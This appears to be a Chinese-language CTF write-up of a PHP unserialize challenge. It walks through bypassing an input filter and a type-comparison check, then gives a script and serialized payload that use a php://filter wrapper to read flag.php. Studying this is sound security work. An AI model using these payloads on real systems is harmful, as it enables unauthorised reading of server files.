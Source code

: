```
        $this->content = "";
        $this->process();
    }

}

function is_valid($s) {
    for($i = 0; $i < strlen($s); $i++)
        if(!(ord($s[$i]) >= 32 && ord($s[$i]) <= 125))
            return false;
    return true;
}

if(isset($_GET{'str'})) {

    $str = (string)$_GET['str'];
    if(is_valid($str)) {
        $obj = unserialize($str);
    }

} 
```

需要绕过两个地方
1.绕过is_valid(),protected属性
方法：用大写S表示字符串，在php7.1+的环境下对属性的要求不是很敏感,用public属性绕过private属性产生的%00问题

2.弱类型绕过
__destruct()魔术方法中，op==="2"是强比较（类型和属性都等于’2’），而process()使用的是弱比较op==“2”，可以通过弱类型绕过
方法：op=2，这时op==="2"为false,op=="2"为true

```
private function read() {
        $res = "";
        if(isset($this->filename)) {
            $res = file_get_contents($this->filename);
        }
        return $res;
    }
    ```
对于file_get_contents()函数，可以用php:filter伪协议读取，将filename置为```php://filter/read=convert.base64-encode/resource=flag.php``。
```java
<?php
class FileHandler {
    public $op = 2;
    public $filename = 'php://filter/read=convert.base64-encode/resource=flag.php';//或者直接读'flag.php'
    public $content;
}
echo serialize(new FileHandler);
?>
//O:11:"FileHandler":3:{s:2:"op";i:2;s:8:"filename";s:57:"php://filter/read=convert.base64-encode/resource=flag.php";s:7:"content";N;} 
```
